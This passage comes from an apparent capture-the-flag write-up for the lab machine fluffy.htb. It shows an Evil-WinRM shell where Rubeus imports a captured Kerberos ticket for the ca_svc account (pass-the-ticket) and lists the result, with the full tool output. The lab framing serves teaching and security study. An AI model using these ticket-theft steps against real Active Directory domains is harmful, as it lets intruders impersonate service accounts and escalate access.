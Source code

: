      =======================================
    |    Printers via RPC for fluffy.htb    |
     =======================================
    [92m[+] No printers available[0m
    
    Completed after 33.94 seconds


Again, because we dont' have remote access, some of these we need to do locally.

```sh
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ./Rubeus.exe ptt /ticket:ca_svc.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3


[*] Action: Import Ticket
[+] Ticket successfully imported!

*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ./Rubeus.exe klist

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3


Action: List Kerberos Tickets (Current User)

[*] Current LUID    : 0xa7b61

  UserName                 : winrm_svc
  Domain                   : FLUFFY
  LogonId                  : 0xa7b61
  UserSID                  : S-1-5-21-497550768-2797716248-2627064577-1603
  AuthenticationPackage    : NTLM
  LogonType                : Network
  LogonTime                : 5/26/2025 5:47:41 PM
  LogonServer              : DC01
  LogonServerDNSDomain     : fluffy.htb
  UserPrincipalName        : winrm_svc@fluffy.htb

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 5/26/2025 6:28:41 PM ; 5/27/2025 4:28:41 AM ; 6/2/2025 6:28:41 PM
      Server Name       : krbtgt/fluffy.htb @ FLUFFY.HTB
      Client Name       : ca_svc @ FLUFFY.HTB
      Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)

C:\Users\winrm_svc\Documents>klist
klist

Current LogonId is 0:0xa7b61

```